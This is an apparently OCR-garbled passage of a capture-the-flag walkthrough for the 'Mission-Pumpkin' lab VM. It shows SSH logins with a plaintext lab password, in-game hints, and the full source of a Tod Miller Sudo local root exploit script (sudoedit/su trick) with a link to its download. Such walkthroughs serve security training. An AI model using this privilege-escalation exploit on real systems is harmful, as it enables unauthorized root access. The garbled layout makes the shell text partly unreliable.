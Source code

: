 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
          Welcome to Mission-Pumpkin
  All remote connections to this machine are monitored and recorded
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

| scarecrow\@10.0.2.15's password: Last login: Thu Jul 4 00:57:32 2019 from 10.0.2.5
scarecrow\@Pumpkin:\~\$ ls note.txt 
scarecrow\@Pumpkin:\~\$ cat note.txt          |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Oops!!! I just forgot; keys to the garden are with LordPumpkin(ROOT user)! Reach out to goblin and share this "Y0n\$M4sy3D1t" to secretly get keys from LordPumpkin. |

| \#user goblin                                                                                                                                                        |
| [root\@parrot]─[/home/user] └──╼ \#ssh goblin\@10.0.2.15 -p 3535                                                                                                     |

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
          Welcome to Mission-Pumpkin
  All remote connections to this machine are monitored and recorded
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

goblin\@10.0.2.15's password: Permission denied, please try again.

goblin\@10.0.2.15's password: Last login: Thu Jul 4 01:29:59 2019 from 10.0.2.5

goblin\@Pumpkin:\~\$ id 
uid=1002(goblin) gid=1002(goblin) groups=1002(goblin),27(sudo)

goblin\@Pumpkin:\~\$ ls note

goblin\@Pumpkin:\~\$ cat note

Hello Friend! I heard that you are looking for PumpkinGarden key. But Key to the
garden will be with LordPumpkin(ROOT user), don't worry, I know where
LordPumpkin had placed the Key. You can reach there through my backyard.

Here is the key to my backyard
https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh

\#./38362.sh

!/bin/sh
========

Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
==============================================================

local root exploit
==================

March 2010
==========

automated by kingcope
=====================

Full Credits to Slouching
=========================

echo Tod Miller Sudo local root exploit echo by Slouching echo automated by
kingcope if [ \$\# != 1 ] then echo "usage: ./sudoxpl.sh " exit fi cd /tmp cat
\> sudoedit \<\< \_EOF \#!/bin/sh echo ALEX-ALEX su /bin/su /usr/bin/su \_EOF
chmod a+x ./sudoedit sudo ./sudoedit \$1
